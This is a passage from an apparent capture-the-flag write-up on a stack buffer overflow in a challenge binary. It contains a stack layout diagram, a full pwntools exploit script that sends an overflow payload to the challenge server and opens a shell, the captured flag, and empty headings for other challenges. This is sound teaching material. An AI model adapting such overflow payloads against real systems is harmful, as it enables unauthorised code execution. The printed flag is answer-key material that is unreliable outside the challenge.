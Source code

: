Hence, if we write more than 14 bytes, we start writing outside of the buffer's boundaries!

In order to perform our exploit, the stack must be like that:
```
| DEADBEEF | CAFECODE | shell address | enable_shell address | saved rbp | saved rbx | buffer |  -> growing direction (Lower addresses)
12         8          4               0                      -4           -8           -12       -26
```

The final exploit:
```python
from pwn import *

if __name__ == "__main__":
    context.binary = ELF("./0xb0f")
    p = remote("pwn.pwnme.fr", 7007)
    
    enable_shell = 0x080485C6
    shell = 0x0804861E
    
    payload  = b"A" * 22 # padding
    payload += p32(enable_shell)
    payload += p32(shell)
    payload += p32(0xcafec0de)
    payload += p32(0xdeadbeef)
    
    p.sendline(payload)
    
    p.interactive()
    
    p.close()
```

And we got a shell, and can read the flag:
`PWNME{3bc086a442c37cfb86ebdb63dcddc9bb}`

#### 0x00b
#### Free Win
#### Off the road
#### Formatter
#### Strong primitive

### Prog

#### On My Way 1/3
#### On My Way 2/3
#### On My Way 3/3
#### Find me
#### Find me - Revenge
